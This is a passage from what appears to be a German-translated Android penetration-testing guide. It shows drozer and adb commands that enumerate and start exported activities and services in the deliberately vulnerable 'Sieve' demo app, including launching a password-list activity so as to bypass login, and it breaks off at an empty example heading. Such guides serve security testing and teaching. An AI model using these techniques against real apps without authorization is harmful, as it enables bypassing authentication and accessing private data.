 ### Aktivitäten

Der Wert des exportierten Aktivitätskomponenten “android:exported” ist im AndroidManifest.xml-Datei auf **“true”** gesetzt:
```markup
<activity android:name="com.my.app.Initial" android:exported="true">
</activity>
```
**Liste der exportierten Aktivitäten**:
```bash
dz> run app.activity.info -a com.mwr.example.sieve
Package: com.mwr.example.sieve
com.mwr.example.sieve.FileSelectActivity
com.mwr.example.sieve.MainLoginActivity
com.mwr.example.sieve.PWList
```
**Start activity**:

Vielleicht kannst du eine Aktivität starten und eine Art von Autorisierung umgehen, die dich daran hindern sollte, sie zu starten.
```bash
dz> run app.activity.start --component com.mwr.example.sieve com.mwr.example.sieve.PWList
```
Sie können auch eine exportierte Aktivität von **adb** starten:

- PackageName ist com.example.demo
- Exported ActivityName ist com.example.test.MainActivity
```bash
adb shell am start -n com.example.demo/com.example.test.MainActivity
```
### Content Providers

Dieser Beitrag war zu groß, um hier zu sein, also **kannst du** [**darauf auf seiner eigenen Seite hier zugreifen**](exploiting-content-providers.md).

### Services

Ein exportierter Dienst wird in der Manifest.xml deklariert:
```markup
<service android:name=".AuthService" android:exported="true" android:process=":remote"/>
```
Im Code **überprüfen** Sie die \*\*`handleMessage`\*\* Funktion, die die **Nachricht** **empfängt**:

![](<../../../images/image (82).png>)

#### Listendienst
```bash
dz> run app.service.info -a com.mwr.example.sieve
Package: com.mwr.example.sieve
com.mwr.example.sieve.AuthService
Permission: null
com.mwr.example.sieve.CryptoService
Permission: null
```
#### **Interagieren** Sie mit einem Dienst
```bash
app.service.send            Send a Message to a service, and display the reply
app.service.start           Start Service
app.service.stop            Stop Service
```
#### Beispiel
